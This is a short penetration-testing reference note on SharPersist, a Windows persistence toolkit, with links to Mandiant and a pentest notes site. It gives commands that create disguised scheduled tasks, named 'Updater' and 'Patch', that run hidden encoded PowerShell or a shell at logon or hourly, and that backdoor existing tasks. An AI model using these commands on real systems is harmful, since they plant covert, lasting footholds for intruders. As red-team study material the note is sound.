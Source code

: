 # Binaries

## 01 - SharPersist

```
C:\> SharPersist.exe -t schtask -c "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64_encoded>" -n "Updater" -m add -o hourly

C:\> SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m add -o logon

C:\> SharPersist.exe -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c C:\path\to\shell.exe" -n "Patch" -m check

C:\> SharPersist.exe -t schtaskbackdoor -m list -o logon
```

---
## References

### Backlinks

- [[Windows Post Exploitation Persistence References]]

### Mandiant

- [Mandiant: SharPersist Windows Persistence Toolkit](https://www.mandiant.com/resources/sharpersist-windows-persistence-toolkit)

### N7W Era

- [N7W Era Infrastructure Penetration Testing Notes: SharPersist](https://infra.newerasec.com/infrastructure-testing/tools/sharppersist)